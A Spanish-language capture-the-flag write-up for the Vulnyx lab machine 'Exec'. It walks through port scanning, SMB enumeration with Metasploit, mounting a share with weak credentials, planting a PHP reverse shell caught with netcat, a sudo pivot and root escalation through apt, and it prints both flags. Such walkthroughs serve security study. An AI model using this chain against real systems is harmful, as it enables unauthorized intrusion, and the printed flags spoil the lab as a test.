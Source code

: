 # Máquina **Exec** - Vulnyx

Comenzamos la máquina comprobando puertos abiertos de la misma

<code>$sudo nmap -sV -p- 10.0.2.7</code>

Y obtenemos el siguiente resultado

<pre>Starting Nmap 7.93 ( https://nmap.org ) at 2024-05-07 22:08 BST
Nmap scan report for 10.0.2.7
Host is up (0.000067s latency).
Not shown: 65531 closed tcp ports (reset)
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
80/tcp  open  http        Apache httpd 2.4.57 ((Debian))
139/tcp open  netbios-ssn Samba smbd 4.6.2
445/tcp open  netbios-ssn Samba smbd 4.6.2
MAC Address: 08:00:27:96:D7:D5 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.31 seconds</pre>


Podemos comprobar que tenemos diferentes servicios abiertos.

Como tenemos un servidor apache vamos a tratar de ingresar a traves de nuestro navegador:

![Alt text](image-1.png)

Hacemos búsqueda de directorios:

<code>$dirb http://10.0.2.7</code>

<pre>-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Tue May  7 22:19:23 2024
URL_BASE: http://10.0.2.7/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://10.0.2.7/ ----
+ http://10.0.2.7/index.html (CODE:200|SIZE:10701)                             
+ http://10.0.2.7/server-status (CODE:403|SIZE:273)                            
                                                                               
-----------------
END_TIME: Tue May  7 22:19:24 2024
DOWNLOADED: 4612 - FOUND: 2
</pre>

Vemos que existe un directorio *server-status* pero en este caso no nos ha hecho falta usarlo.
***
Sabemos que existe un servidor SMB, por lo que vamos a enumerar los servicios compartidos con Metasploit con <code>auxiliary(scanner/smb/smb_enumshares)</code> y obtenemos el siguiente resultado:

<pre>
[*] 10.0.2.7:139          - Starting module
[-] 10.0.2.7:139          - Login Failed: Unable to negotiate SMB1 with the remote host: Expecting SMB1 protocol with command=114, got SMB1 protocol with command=114, Status: (0x00000000) STATUS_SUCCESS: The operation completed successfully.
[*] 10.0.2.7:445          - Starting module
[!] 10.0.2.7:445          - peer_native_os is only available with SMB1 (current version: SMB3)
[!] 10.0.2.7:445          - peer_native_lm is only available with SMB1 (current version: SMB3)
[+] 10.0.2.7:445          - print$ - (DISK) Printer Drivers
[+] 10.0.2.7:445          - server - (DISK) Developer Directory
[+] 10.0.2.7:445          - IPC$ - (IPC|SPECIAL) IPC Service (Samba 4.17.12-Debian)
[+] 10.0.2.7:445          - nobody - (DISK) Home Directories
[*] 10.0.2.7:             - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed 
</pre>

Y con <code>auxiliary(scanner/smb/smb_lookupsid)</code> conseguimos un usuario.

<pre>
[*] 10.0.2.7:139          - PIPE(LSARPC) LOCAL(EXEC - 5-21-1053484093-4117888201-2282325410) DOMAIN(WORKGROUP - )
[*] 10.0.2.7:139          - USER=nobody RID=501
[*] 10.0.2.7:139          - GROUP=None RID=513

</pre>

Vamos a tratar de montar en nuestra máquina alguna de los directorios compartidos. Para ello vamos a montar el directorio en <code>/server</code> en <code>/mnt/samba</code>

<code>sudo mount -vvv -v -t cifs //10.0.2.7/server /mnt/samba -o username=nobody,password=nobody,rw,file_mode=0777,dir_mode=0777</code>

Y obtenemos el contenido del directorio:

<pre>
$cd /mnt/samba
┌─[parrot@parrot]─[/mnt/samba]
└──╼ $ls
index.html
</pre>

>Tras probar con varios directorios compartidos, conseguimos montar con el usuario *nobody* y pass *nobody*

Ya tenemos acceso al index.html donde apunta el servidor apache. Por lo que vamos a modificar el nombre del archivo a <code>index.php</code> e introduciremos en el documento una *reverse shell* para obtener acceso a la consola.

Así quedaría el documento html:

![Alt text](image-2.png)

Y al refrescar la web obtenemos la shell:

<pre>
┌─[parrot@parrot]─[~]
└──╼ $nc -lvp 1234
listening on [any] 1234 ...
10.0.2.7: inverse host lookup failed: Unknown host
connect to [10.0.2.5] from (UNKNOWN) [10.0.2.7] 60632
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
</pre>

Obtenemos una TTY interactiva co Python:
<pre>
<code>python3 -c 'import pty; pty.spawn("/bin/bash")'</code>
> www-data@exec:/var/www/html$ 
</pre>

Con <code>sudo -l</code> podemos ver que a traves del usuario s3cur4 podemos usar /bin/bash

Procedemos con <code>sudo -u s3cur4 /usr/bin/bash</code> y:

<pre>
www-data@exec:/home$ sudo -u s3cur4 /usr/bin/bash
sudo -u s3cur4 /usr/bin/bash
s3cur4@exec:/home$ id
id
uid=1000(s3cur4) gid=1000(s3cur4) groups=1000(s3cur4)
s3cur4@exec:/home$ 
</pre>

Tenemos el control del usuario y la flag en <code>/home/s3cur4 > user.txt</code>:

**45e398cc820ab08df0e3a414eac58fef**

Para escalar privilegios, haremos uso de GTFObins https://gtfobins.github.io/gtfobins/apt/ 

![Alt text](image-3.png)

<pre>
# id
id
uid=0(root) gid=0(root) groups=0(root)
# cd /root
cd /root
# ls    
ls
root.txt
# cat root.txt
cat root.txt
</pre>

Obtenemos la flag de root:

**97d8adddb3a3aa8b63e28c2396c5e53f**


Y esto es todo ^^ 

#BlueEsAzul \
#RedEsRojo